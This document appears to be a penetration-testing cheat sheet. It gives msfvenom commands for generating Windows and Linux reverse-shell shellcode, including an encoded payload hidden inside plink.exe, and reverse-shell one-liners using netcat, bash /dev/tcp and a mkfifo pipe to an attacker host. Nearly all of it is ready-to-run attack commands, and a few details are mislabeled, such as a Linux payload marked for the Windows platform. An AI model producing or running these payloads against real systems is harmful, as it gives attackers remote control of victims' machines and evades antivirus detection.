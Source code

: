 # Generate shellcodes

## Windows

```bash
msfvenom -a x86 --platform Windows \
    -p windows/shell_reverse_tcp \
    -b '\x00\x40\x0a\x0d' \
    -f python -v shellcode \
    LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT
```

```python
msfvenom -p windows/shell_reverse_tcp -f exe \
    -e x86/shikata_ga_nai -i 9 \
    -x /usr/share/windows-binaries/plink.exe -o reverse.exe \
    LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT
```

### Generate shellcode with specified size in python format

```bash
msfvenom -a x86 --platform windows \
    -p windows/shell_reverse_tcp \
    -b '\x00\x40\x0a\x0d' \
    -s $PAYLOAD_SIZE \
    LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT \
    | msfvenom -a x86 --platform Windows -f python -v shellcode
```

## Linux

```python
msfvenom -a x86 --platform Windows \
    -p linux/x86/shell_reverse_tcp \
    -b '\x00\x40\x0a\x0d' \
    -f python -v shellcode \
    LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT
```

### Reverse shell commands

```python
nc $ATTACKER_IP 443 -e /bin/bash
```

If netcat is not on the target system:

```python
/bin/bash -i >& /dev/tcp/$ATTACKER_IP/$ATTACKER_PORT 0>&1
```

```python
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $ATTACKER_IP $ATTACKER_PORT >/tmp/f
```

## Webshells

### Commands

```python

```

